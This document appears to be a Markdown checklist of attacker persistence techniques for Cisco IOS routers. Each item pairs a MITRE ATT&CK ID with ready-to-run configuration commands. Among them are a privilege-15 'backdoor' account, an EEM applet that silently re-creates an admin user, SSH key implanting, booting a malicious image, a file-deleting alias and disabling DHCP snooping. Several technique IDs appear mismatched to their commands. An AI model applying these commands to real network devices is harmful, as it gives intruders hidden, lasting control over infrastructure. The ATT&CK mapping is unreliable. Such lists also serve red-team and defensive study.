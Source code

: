 # Cisco Persistence Techniques

- [ ] **Create Local Administrative User (T1136.001)**  
  ```shell
  configure terminal
  username backdoor privilege 15 secret P@ssw0rd!
  end
  write memory
  ```

- [ ] **Enable Local Authentication Fallback (TA0006)**  
  ```shell
  configure terminal
  aaa authentication login default group tacacs+ local
  end
  write memory
  ```

- [ ] **Configure SNMP Community String (T1647)**  
  ```shell
  configure terminal
  snmp-server community public RO
  end
  write memory
  ```

- [ ] **Archive Configuration to TFTP (T1565.001)**  
  ```shell
  configure terminal
  archive
   path tftp://192.0.2.10/config-backup
   write-memory
  exit
  write memory
  ```

- [ ] **Schedule Automated Backup with Kron (T1053.002)**  
  ```shell
  configure terminal
  kron policy-list backup
   cli write memory
  kron occurrence backup at 0:00 recurring
  exit
  write memory
  ```

- [ ] **Embed Persistence via EEM Applet (T1546.015)**  
  ```shell
  configure terminal
  event manager applet PersistUser
   event syslog pattern "SYS-5-CONFIG_I"
   action 1.0 cli command "enable"
   action 2.0 cli command "configure terminal"
   action 3.0 cli command "username eemadmin privilege 15 secret E3mP@ss"
  exit
  write memory
  ```

- [ ] **Enable HTTP Server for CLI Access (T1071.003)**  
  ```shell
  configure terminal
  ip http server
  ip http authentication local
  end
  write memory
  ```

- [ ] **Configure Telnet and SSH Access (T1078.003)**  
  ```shell
  configure terminal
  line vty 0 4
   transport input telnet ssh
   login local
  end
  write memory
  ```

- [ ] **Import SSH Public Key (T1558.003)**  
  ```shell
  configure terminal
  ip ssh pubkey-chain
   username backdoor
    key-string
     AAAAB3NzaC1yc2E...
    exit
   exit
  end
  write memory
  ```

- [ ] **Persistent CLI via EEM Scheduled Cron (T1053.005)**  
  ```shell
  configure terminal
  event manager scheduler cron name DailyPersist cron-entry "0 0 * * *"
   cli write memory
  exit
  write memory
  ```

- [ ] **Modify Boot System Image (T1542.001)**  
  ```shell
  configure terminal
  boot system flash malicious_image.bin
  end
  write memory
  ```

- [ ] **Enable Secure HTTP Server (T1071.003)**  
  ```shell
  configure terminal
  ip http secure-server
  ip http authentication local
  end
  write memory
  ```

- [ ] **Configure SNMP Trap Receiver (T1589.002)**  
  ```shell
  configure terminal
  snmp-server host 192.0.2.5 traps version 2c public
  end
  write memory
  ```

- [ ] **Create Alias for Malicious Command (T1036.005)**  
  ```shell
  configure terminal
  alias exec lsls delete flash:cisco/chkp.cfg
  end
  write memory
  ```

- [ ] **Persistent IP SLA for C2 Check (T1497.001)**  
  ```shell
  configure terminal
  ip sla 1
   icmp-echo 203.0.113.5 source-interface GigabitEthernet0/1
   frequency 60
  exit
  ip sla schedule 1 life forever start-time now
  end
  write memory
  ```

- [ ] **Change Config Register to Ignore Startup Config (T1547.009)**  
  ```shell
  configure terminal
  config-register 0x2142
  end
  write memory
  ```

- [ ] **Setup Netflow Exporter (T1041)**  
  ```shell
  configure terminal
  ip flow-export destination 203.0.113.10 9996
  end
  write memory
  ```

- [ ] **Configure NAT Port Forwarding (T1571)**  
  ```shell
  configure terminal
  ip nat inside source static tcp 192.168.1.100 80 interface GigabitEthernet0/0 8080
  end
  write memory
  ```

- [ ] **Add Static Route for C2 Persistence (T1021.001)**  
  ```shell
  configure terminal
  ip route 10.10.10.0 255.255.255.0 192.168.1.1
  end
  write memory
  ```

- [ ] **Modify Banner to Obfuscate Access (T1564.002)**  
  ```shell
  configure terminal
  banner login ^C
  Authorized Access Only
  ^C
  end
  write memory
  ```

- [ ] **Enable Persistent Debug Logging (T1562.001)**  
  ```shell
  configure terminal
  logging buffered 64000 debugging
  end
  write memory
  ```

- [ ] **Configure HTTP Port Redirection (T1571)**  
  ```shell
  configure terminal
  ip http secure-server
  ip http authentication local
  ip http port 8080
  end
  write memory
  ```

- [ ] **Persistent DHCP Snooping Bypass (T1018.001)**  
  ```shell
  configure terminal
  no ip dhcp snooping
  end
  write memory
  ```
